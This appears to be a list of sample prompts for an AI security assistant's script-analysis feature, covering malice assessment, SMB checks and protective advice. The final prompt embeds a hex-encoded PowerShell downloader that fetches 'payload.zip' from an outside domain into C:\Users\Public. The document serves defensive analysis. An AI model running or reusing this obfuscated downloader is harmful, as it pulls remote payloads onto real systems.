 # Script Analysis
<a name="Script Analysis"></a>
- What actions are performed by this script?
- Explain how this script could be used maliciously
- Is this script malicious?
- Evaluate the provided script for malicious intent. Justify your assessment with supporting evidence and a confidence level.
- Write a PowerShell script to test the SMB versions and state across all the affected devices 
via remote connection.
- Write a PowerShell script to test the SMB versions and state across all the affected 
machines.
- Extract the entities from the script analysis (If script analysis is done)
- Give me recommendations to protect my organization against this script
- Analyze this script 66 75 6e 63 74 69 6f 6e 20 44 6f 77 6e 6c 6f 61 64 2d 46 69 6c 65 28 5b 73 74 72 69 6e 67 5d 24 75 72 6c 2c 20 5b 73 74 72 69 6e 67 5d 24 6c 6f 63 61 6c 50 61 74 68 29 20 7b 0d 0a 20 20 20 20 74 72 79 20 7b 0d 0a 20 20 20 20 20 20 20 20 23 20 43 68 65 63 6b 20 69 66 20 74 68 65 20 6c 6f 63 61 6c 20 70 61 74 68 20 69 73 20 6e 75 6c 6c 20 6f 72 20 65 6d 70 74 79 0d 0a 20 20 20 20 20 20 20 20 69 66 20 28 5b 73 74 72 69 6e 67 5d 3a 3a 49 73 4e 75 6c 6c 4f 72 45 6d 70 74 79 28 24 6c 6f 63 61 6c 50 61 74 68 29 29 20 7b 0d 0a 20 20 20 20 20 20 20 20 20 20 20 20 23 20 45 78 74 72 61 63 74 20 74 68 65 20 66 69 6c 65 20 6e 61 6d 65 20 66 72 6f 6d 20 74 68 65 20 55 52 4c 0d 0a 20 20 20 20 20 20 20 20 20 20 20 20 24 6c 6f 63 61 6c 50 61 74 68 20 3d 20 4a 6f 69 6e 2d 50 61 74 68 20 24 70 77 64 20 28 53 70 6c 69 74 2d 50 61 74 68 20 24 75 72 6c 20 2d 4c 65 61 66 29 0d 0a 20 20 20 20 20 20 20 20 7d 0d 0a 0d 0a 20 20 20 20 20 20 20 20 23 20 44 6f 77 6e 6c 6f 61 64 20 74 68 65 20 66 69 6c 65 0d 0a 20 20 20 20 20 20 20 20 49 6e 76 6f 6b 65 2d 57 65 62 52 65 71 75 65 73 74 20 2d 55 72 69 20 24 75 72 6c 20 2d 4f 75 74 46 69 6c 65 20 24 6c 6f 63 61 6c 50 61 74 68 0d 0a 0d 0a 20 20 20 20 20 20 20 20 57 72 69 74 65 2d 48 6f 73 74 20 22 46 69 6c 65 20 64 6f 77 6e 6c 6f 61 64 65 64 20 73 75 63 63 65 73 73 66 75 6c 6c 79 20 61 6e 64 20 73 61 76 65 64 20 61 74 20 24 6c 6f 63 61 6c 50 61 74 68 2e 22 0d 0a 20 20 20 20 7d 0d 0a 20 20 20 20 63 61 74 63 68 20 7b 0d 0a 20 20 20 20 20 20 20 20 57 72 69 74 65 2d 48 6f 73 74 20 22 41 6e 20 65 72 72 6f 72 20 6f 63 63 75 72 72 65 64 3a 20 24 5f 22 0d 0a 20 20 20 20 7d 0d 0a 7d 0d 0a 0d 0a 23 20 4d 61 69 6e 20 65 78 65 63 75 74 69 6f 6e 0d 0a 24 75 72 6c 20 3d 20 52 65 61 64 2d 48 6f 73 74 20 2d 50 72 6f 6d 70 74 20 27 65 61 72 74 68 73 63 69 67 72 6f 76 70 2e 63 6f 6d 2e 61 75 5c 70 61 79 6c 6f 61 64 2e 7a 69 70 27 0d 0a 24 6c 6f 63 61 6c 50 61 74 68 20 3d 20 52 65 61 64 2d 48 6f 73 74 20 2d 50 72 6f 6d 70 74 20 27 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 70 61 79 6c 6f 61 64 2e 7a 69 70 27 0d 0a 0d 0a 23 20 43 61 6c 6c 20 74 68 65 20 66 75 6e 63 74 69 6f 6e 0d 0a 44 6f 77 6e 6c 6f 61 64 2d 46 69 6c 65 20 2d 75 72 6c 20 24 75 72 6c 20 2d 6c 6f 63 61 6c 50 61 74 68 20 24 6c 6f 63 61 6c 50 61 74 68

***
